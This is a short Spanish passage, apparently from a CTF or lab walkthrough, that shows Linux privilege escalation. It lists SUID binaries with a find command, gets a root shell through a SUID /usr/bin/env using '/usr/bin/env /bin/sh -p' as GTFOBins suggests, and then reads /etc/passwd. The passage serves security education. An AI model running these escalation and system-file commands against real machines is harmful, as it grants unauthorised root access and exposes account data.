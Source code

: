 ### SUID
Vamos a buscar binarios que tengan permisos `SUID`.
```
find / -perm -4000 2>/dev/null
```

![](img/Pasted%20image%2020241209215633.png#center)

El binario que me llama la atención es  `/usr/bin/env`, vamos a ejecutar ese binario con la ayuda de la herramienta **GTFObins**, que no indicará como tenemos que ejecutar el binario para obtener privilegios de `root`.

![](img/Pasted%20image%2020241209220150.png#center)

Nos indica la herramienta que ejecutando el siguiente comandos podemos ser usuarios `root`:
```
/usr/bin/env /bin/sh -p
```

![](img/Pasted%20image%2020241209220317.png#center)

Ya somos el usuario `root`, y ahora tenemos permisos para seguir enumerando el sistema.
```
cat /etc/passwd
```

![](img/Pasted%20image%2020241209220453.png#center)


